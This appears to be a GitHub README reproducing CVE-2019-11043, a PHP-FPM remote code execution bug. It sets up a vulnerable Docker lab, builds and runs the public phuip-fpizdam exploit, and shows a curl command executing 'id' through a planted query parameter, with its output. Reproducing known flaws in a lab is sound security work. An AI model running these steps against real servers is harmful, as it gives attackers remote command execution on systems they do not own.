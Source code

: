 # CVE-2019-11043

## Description

- PHP 5.6 ，PHP-FPM Crash，DOS

- PHP 7.0，RCE

- PHP 7.1，RCE

- PHP 7.2，RCE

- PHP 7.3，RCE

| Item           | Value                                         | Remark |
| -------------- | --------------------------------------------- | ------ |
| Risk Level     | HIGH                                          |        |
| Attack Type    | Remote Code Execution                         |        |
| Attack Postion | URI                                           |        |
| Principle      | [Link](https://bugs.php.net/bug.php?id=78599) | %0A    |



## Environment

`php-fpm`:7.3.0 + `nginx`:1.14.2

```bash
# downlaod docker(include php-fpm and nginx)
docker pull lubinlew/cve-2019-11043

# run the docker
docker run -d -p 40080:80 --name cve-2019-11043 lubinlew/cve-2019-11043:latest

```

## Reappear

- Compile [POC](https://github.com/neex/phuip-fpizdam)
  
  ```bash
      git clone https://github.com/neex/phuip-fpizdam.git
      cd phuip-fpizdam
      go get -v && go build
  ```

- Run POC
  
  ```bash
  ./phuip-fpizdam http://<IP-Address>:40080/index.php
  ```

- Now you can execute command with `?a=cmd`
  
  ```bash
  curl http://10.130.12.127:40080/index.php?a=id
  uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)
  Hello World!
  ```
  
  

## References

http://blog.leanote.com/post/snowming/9da184ef24bd

https://bugs.php.net/bug.php?id=78599

[GitHub - neex/phuip-fpizdam: Exploit for CVE-2019-11043](https://github.com/neex/phuip-fpizdam)
